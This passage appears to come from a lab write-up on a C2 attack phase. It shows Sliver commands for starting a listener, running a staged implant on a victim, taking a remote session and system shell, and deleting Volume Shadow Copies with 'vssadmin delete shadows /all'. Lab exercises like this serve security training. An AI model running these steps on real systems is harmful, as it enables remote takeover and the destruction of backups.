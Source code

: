  Attack

With the environment prepared and access to the victim machine confirmed, I proceeded to launch the attack phase using the Sliver C2 framework. The implant used in this phase was created during a previous lab and is already staged on the victim.


 Launch the Sliver server
```bash
sliver-server
```
[Launch Sliver](./Launch%20sliver.png)
 
 Run HTTP listner
```bash
http
```
 On the victim machine execute the implant
```powershell
./NEW_SHAKEDOWN (#You'll have to navigate to directory, or specify path)
```

 Return to the attacker machine and check for an incoming session
```bash
sessions
```
 Interact with the live session
```bash
 use <session_id>
```
 Drop to system native command prompt 
```bash
shell(#When Prompted 'are you an adult?' type Y) 
```
 Verify active sysytem shell
```bash
whoami
```
 Run command to simulate volime Shadow Copy deletion
```bash
vssadmin delete shadows /all
```
